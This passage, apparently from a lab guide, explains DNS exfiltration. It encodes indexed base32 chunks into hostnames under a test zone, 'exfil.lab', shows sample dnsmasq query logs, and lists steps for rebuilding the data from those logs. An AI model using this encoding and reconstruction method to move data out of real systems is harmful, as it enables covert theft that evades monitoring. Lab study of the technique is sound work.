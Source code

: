 ```
<index><separator><payload-chunk>[<separator><checksum-or-end>]
```

Constraints:

* Character set must be legal in hostnames. For base64 use the URL variant or remap the symbols that are not allowed.
* Leftmost label length must stay within 63 characters.
* Each chunk should be unique to prevent caching from collapsing the sequence.
* An index, for example `p001`, `p002`, ensures correct ordering.

Example fully qualified names as printed by the canvas:

```
p001_db.MFRGGZDFMZTQ====.exfil.lab
p002_db.MFWWK3TLNB2GI===.exfil.lab
```

The authoritative resolver sees the names exactly as above and logs them.

---

## What the resolver logs look like

Exact formatting varies by build. The essential elements are the query type, the full name, and the source.

```
Jun 01 12:00:01 dnsmasq[12345]: query[A] p001_db.MFRGGZDFMZTQ.exfil.lab from 127.0.0.1
Jun 01 12:00:01 dnsmasq[12345]: config exfil.lab is local
Jun 01 12:00:01 dnsmasq[12345]: reply p001_db.MFRGGZDFMZTQ.exfil.lab is 127.0.0.1

Jun 01 12:00:02 dnsmasq[12345]: query[A] p002_db.MFWWK3TLNB2G.exfil.lab from 127.0.0.1
Jun 01 12:00:02 dnsmasq[12345]: reply p002_db.MFWWK3TLNB2G.exfil.lab is 127.0.0.1
```

You will usually see dual-stack requests as well:

```
Jun 01 12:00:02 dnsmasq[12345]: query[AAAA] p002_db.MFWWK3TLNB2G.exfil.lab from ::1
Jun 01 12:00:02 dnsmasq[12345]: reply p002_db.MFWWK3TLNB2G.exfil.lab is ::
```

These lines are sufficient for reconstruction because they include the entire query name.

---

## Reconstruction procedure

1. Parse the log file and filter for the test zone.
2. Extract the leftmost label from each name.
3. Parse out the index and payload chunk.
4. Sort by index and concatenate the chunks.
5. Decode from base32 or base64url to bytes.
6. Validate length or checksum and write the result to disk.
